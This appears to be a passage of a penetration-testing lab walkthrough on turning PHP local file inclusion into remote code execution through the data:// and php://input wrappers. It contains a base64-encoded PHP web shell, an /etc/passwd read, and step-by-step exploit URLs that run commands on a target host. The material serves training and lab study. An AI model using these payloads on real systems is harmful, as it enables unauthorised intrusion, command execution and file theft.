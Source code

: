 **Base64 Encoded PHP:**
```bash
# Create base64 payload
echo '<?php system($_GET["cmd"]); ?>' | base64
# Output: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

# Use in data wrapper
http://target.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=whoami
```

### HTB Academy Data Wrapper Lab

**Target Configuration:**
- **Lab Environment:** HTB Academy platform
- **Objective:** Achieve RCE using data wrapper

**Step-by-Step Solution:**
```bash
# Step 1: Verify LFI vulnerability
http://target.com/index.php?language=../../../../etc/passwd

# Step 2: Check if allow_url_include is enabled
http://target.com/index.php?language=data://text/plain,<?php phpinfo(); ?>
# Look for allow_url_include = On

# Step 3: Test basic RCE
http://target.com/index.php?language=data://text/plain,<?php system('id'); ?>

# Step 4: Create web shell
http://target.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=ls -la

# Step 5: Execute commands and find flags
http://target.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=find / -name "*flag*" 2>/dev/null
```

---

## Method 2: Input Wrapper RCE

The `php://input` wrapper reads raw POST data, allowing PHP code execution through POST requests.

### Input Wrapper Configuration

**Configuration Requirements:**
```ini
# Required in php.ini
allow_url_include = On
```

**Basic Usage:**
```bash
# Wrapper syntax
php://input

# PHP code sent via POST data
```
